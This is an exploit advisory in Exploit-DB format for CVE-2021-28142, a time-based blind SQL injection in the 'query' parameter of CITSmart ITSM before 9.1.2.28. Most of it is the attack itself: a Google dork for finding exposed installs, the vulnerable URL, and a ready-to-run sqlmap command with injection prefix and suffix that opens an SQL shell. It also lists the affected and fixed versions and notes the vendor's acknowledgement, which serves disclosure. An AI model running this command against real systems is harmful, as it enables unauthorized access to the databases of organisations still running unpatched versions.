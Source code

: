 EXP
---

    # Exploit Title: CITSmart ITSM 9.1.2.27 - 'query' Time-based Blind SQL Injection (Authenticated)
    # Google Dork: "citsmart.local"
    # Date: 11/03/2021
    # Exploit Author: skysbsb
    # Vendor Homepage: https://docs.citsmart.com/pt-br/citsmart-platform-9/get-started/about-citsmart/release-notes.html
    # Version: < 9.1.2.28
    # CVE : CVE-2021-28142

    To exploit this flaw it is necessary to be authenticated.

    URL vulnerable:
    https://vulnsite.com/citsmart/pages/smartPortal/pages/autoCompletePortal/autoCompletePortal.load?idPortfolio=&idServico=&query=fale
    Param vulnerable: query

    Sqlmap usage:  sqlmap -u "
    https://vulnsite.com/citsmart/pages/smartPortal/pages/autoCompletePortal/autoCompletePortal.load?idPortfolio=&idServico=&query=fale" --cookie 'JSESSIONID=xxx' --time-sec 1 --prefix "')" --suffix "AND ('abc%'='abc" --sql-shell

    Affected versions: < 9.1.2.28
    Fixed versions: >= 9.1.2.28

    Vendor has acknowledge this vulnerability at ticket 11216 (https://docs.citsmart.com/pt-br/citsmart-platform-9/get-started/about-citsmart/release-notes.html)